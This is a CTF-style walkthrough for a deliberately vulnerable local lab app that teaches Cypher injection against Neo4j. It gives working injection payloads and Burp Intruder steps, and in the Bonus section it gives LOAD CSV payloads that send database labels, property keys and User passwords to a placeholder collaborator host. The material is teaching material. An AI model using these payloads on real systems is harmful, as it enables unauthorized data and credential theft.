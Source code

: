 ## Neo4j 

In part, this application tests your knowledge of Neo4j and Cypher Query Language. Below you will find hints and steps for full walkthroughs. 

### EASY

<details>
  <summary>Hints</summary>

  1. Can you modify the request before it gets sent to server?
  2. Can you modify the request so the application displays an error with the Cypher query? 
  3. Can you modify the request to include the Cypher equivalent to sql injection's ```x' or 'x'='x```?
</details>

<details>
  <summary>Walkthrough</summary>

  1. Browse to the [Neo4j page](http://localhost:8084/app/?db=neo4j) of the app.
  2. Using Burp or ZAP, intercept your request after clicking "go" on the app's Neo4j page.
  3. Edit ```person=Tom+Hanks``` to ```person=xxxxx"``` in the request body.
  4. Forward the request.
  5. Back in your browser, observe the query in the error message.
  6. Send another request and intercept it.
  7. Edit the request: Change ```person=Tom+Hanks`` to ```person=Tom+Hanks" or person.name=~".*```.
  8. Forward the request.
  9. Back in your browser look for the FLAGs.
</details>

### MEDIUM 

<details>
  <summary>Hints</summary>

  1. Modify the request so the application displays an error with the Cypher query. 
  2. The payload here depends on understanding Cypher Query Language as well as understanding how application code might rely on variable names used in the ```return`` portion of the query. 
</details>

<details>
  <summary>Walkthrough</summary>

  There are multiple ways to get the flags at this level, one of which does not require Cypher Injection; below is one that does, and requires some knowledge of Neo4j and Cypher Query Language.

  1. Browse to the [Neo4j page](http://localhost:8084/app/?db=neo4j) of the app.
  2. Select anything in the second dropdown.
  3. Using Burp or ZAP, intercept your request after clicking "go" on the app's Neo4j page.
  4. Edit ```person=Tom+Hanks``` to ```person=Tom+Hanks"``` in the request body.
  5. Forward the request.
  6. Back in your browser, observe the query in the error message.
  7. Send another request and intercept it.
  8. Edit the request: Change ```person=Tom+Hanks`` to ```person=Tom+Hanks"})-[role]-(movie) return person,role,movie//```.
  9. Create a text file containing the list of names from the select dropdown.
  10. Use Burp intruder to replace ```Tom+Hanks``` with the names from the file. 
  11. Find results in intruder that contain the text FLAG.
</details>

### HARD

<details>
  <summary>Hints</summary>

  1. There is no Cypher Injection attack at the Hard level 
  2. Burp Intruder and info you have gathered in the Easy and Meidum levels will help you at this level. 
</details>

<details>
  <summary>Walkthrough</summary>

  1. Turn Intercept off in Burp.
  2. Browse to the [Neo4j page](http://localhost:8084/app/?db=neo4j) of the app.
  3. Select anything in the second dropdown and click go.
  4. In Burp, find this request and send it to intruder.
  5. In intruder, select the value for ```person``` and the value for ```role``` as your attack vectors.
  6. Select Cluster Bomb as your Attack Type.
  7. Use the list of "persons" you used in Medium as the payload for ```person```.
  8. Use a list you've gathered from the previous 2 steps as the payload for ```role```.
  9. Click ```start attack```.
  10. Search for ```FLAG`` in the results to find the 3 flags at this level.
</details>

### BONUS  

<details>
  <summary>Hints</summary>

  1. To get the BONUS flags, you will need either:
    * Your own webserver where you may monitor access logs 
    * [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) 
  2. You will need to understand how to use [Neo4j's db.labels() and db.propertyKeys() procedures](https://Neo4j.com/docs/cypher-manual/current/clauses/call/) to map this database.
  3. You will need to understand how to use [Neo4j's LOAD CSV functionality](https://Neo4j.com/developer/guide-import-csv/) to cause Neo4j to make http requests.
  4. You will need to understand how to use the two together to [extract information from Neo4j](https://www.sidechannel.blog/en/the-cypher-injection-saga/).
  5. Focus on a ```person``` who had flags associated with their records already, like the ```Tom```s
</details>

<details>
  <summary>More Hints</summary>

You need [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client), which is sadly only available with Burpsuite Pro, or your own webserver where you are able to see HTTP access requests. You could add a basic webserver container to this set up and use that server's IP address and access logs in place of Burp Collaborator.

1. Set your challenge level to Medium
2. Get list of all labels in the database and look for something interesting

```
person=Christian+Bale"})+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://your.burpcollaboratorurl.com/'%2blabel+AS+r+return+person//&role=ACTED_IN&search=go
```

3. Get list of all properties in the database and look for something interesting

```
person=Christian+Bale"})+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+FROM+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&role=ACTED_IN&search=go
```

4. Try variations of the following payload, replacing LABEL with an actual label and PROPERTY with an actual property from steps 1 & 2. This will tell you what properties go with what labels - if results are returned, a property has been matched to a label. (We use the variable ```movie``` in these payloads because that's the variable the application code expects. Changing that would render no results and may cause errors instead of useful information)

```
person=Tom Cruise"})-[role]-(movie:LABEL)+WHERE+movie.PROPERTY+IS+NOT+null+return+person,role,movie//
```

For example, these should not return data because the User nodes do not have a property called ```notrealproperty``` or ```tagline```.

```
person=Tom Cruise"})-[role]-(movie:User)+WHERE+movie.notrealproperty+IS+NOT+null+return+person,role,movie//
person=Tom Cruise"})-[role]-(movie:User)+WHERE+movie.tagline+IS+NOT+null+return+person,role,movie//
```

And this should return data because the Movie nodes do have properties called ```tagline``` and ```released``` although they never show up in our web application

```
person=Tom Cruise"})-[role]-(movie:Movie)+WHERE+movie.tagline+IS+NOT+null+return+person,role,movie//
person=Tom Cruise"})-[role]-(movie:Movie)+WHERE+movie.released+IS+NOT+null+return+person,role,movie//
```

5. Once you've decided what LABEL and PROPERTY you are interested in, use the following payload, foreach person in the database, replacing LABEL with the label and PROPERTY with the property and watch your collaborator space or your server access logs for requests. 

```
person=Tom+Cruise"})-[role]->(movie:LABEL)+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bperson.name%2b'/'%2bmovie.PROPERTY+AS+r+return+person,role,movie//&role=DIRECTED&search=go
```

For example, we should now know node ```User``` has a property ```title``` so this should send information to collaborator or your web server

```
person=Tom+Cruise"})-[role]->(movie:User)+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bperson.name%2b'/'%2bmovie.title+AS+r+return+person,role,movie//&role=DIRECTED&search=go
```

6. Some of the flags may need to be further figured out.
</details>


<details>
  <summary>Exact steps to FLAGS</summary>

You need [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client), which is sadly only available with Burpsuite Pro, or your own webserver where you are able to see HTTP access requests. You could add a basic webserver container to this set up and use that server's IP address and access logs in place of Burp Collaborator.


1. Set your challenge level to Medium
2. Get a list of all labels in the database - you are looking for the ```User``` label.

```
person=Christian+Bale"+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

3. Get list of all properties in the database - you are looking for the ```password``` label. 

```
person=Christian+Bale"+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

4. Use the following payloads to get the BONUS flags.

```
person=Tom+Tykwer"})-[role]->(movie:User)+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bperson.name%2b'/'%2bmovie.password+AS+r+return+person,role,movie//&role=DIRECTED&search=go

person=Tom+Cruise"})-[role]->(movie:User)+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bperson.name%2b'/'%2bmovie.password+AS+r+return+person,role,movie//&role=DIRECTED&search=go

person=Tom+Skerritt"})-[role]->(movie:User)+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bperson.name%2b'/'%2bmovie.password+AS+r+return+person,role,movie//&role=DIRECTED&search=go
```

5. The BONUS^MEDIUM password is base64 encoded 3x. 
6. The BONUS^HARD password is encoded using Ceasar Cipher then converted to asciihex then base64 encoded.
</details>
